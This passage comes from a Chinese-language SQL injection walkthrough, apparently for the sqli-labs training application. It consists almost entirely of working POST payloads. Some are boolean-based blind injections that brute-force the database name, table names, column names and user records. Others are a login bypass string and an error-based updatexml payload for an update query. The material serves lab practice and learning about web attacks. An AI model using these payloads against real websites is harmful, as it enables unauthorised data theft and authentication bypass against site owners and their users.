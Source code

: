 ### **方法二，布尔型手工注入**

判断数据库长度

```
uname=admin") and length(database())=8 --+&passwd=admin&submit=Submit
```

暴力破击数据库名

```
uname=admin") and left((select database()),1)='s' --+&passwd=admin&submit=Submit

uname=admin") and left((select database()),8)='security' --+&passwd=admin&submit=Submit
```

暴力破解表名

```
uname=admin") and left((select table_name from information_schema.tables where table_schema =database() limit 3,1),1)='u' --+&passwd=admin&submit=Submit

uname=admin") and left((select table_name from information_schema.tables where table_schema =database() limit 3,1),5)='users' --+&passwd=admin&submit=Submit
```

暴力破解列名

```
uname=admin") and left((select column_name from information_schema.columns where table_name ='users' limit 0,1),2)='id' --+&passwd=admin&submit=Submit
```

暴力破解字段

```
uname=admin") and left((select username from users limit 0,1),1)='D' --+&passwd=admin&submit=Submit
```

### **方法三，歪门邪道：**

万能账号绕过密码验证：

```
admin")#
```

注入结束。

# **Less-17 **

**POST - Update Query- Error Based - String (基于错误的更新查询POST注入)**



使用updatexml（），它和extractvaule（）是亲兄弟

爆库payload

```
uname=admin&passwd=admin' and updatexml(1,concat(0x7e,database(),0x7e),1) --+&submit=Submit
```
